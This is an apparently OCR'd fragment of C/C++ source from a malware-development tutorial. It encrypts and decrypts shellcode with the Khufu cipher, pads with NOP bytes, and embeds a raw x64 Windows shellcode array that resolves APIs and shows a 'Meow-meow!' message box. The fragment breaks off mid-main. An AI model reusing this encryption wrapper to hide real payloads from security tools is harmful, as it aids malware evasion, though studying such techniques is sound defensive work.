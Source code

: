 ```cpp
    khufu_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  khufu_encrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }
}

void khufu_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
  unsigned char pad[BLOCK_SIZE] = 
  {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
  memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, 
  remaining);
  khufu_decrypt(pad, key);
  memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, 
  remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
```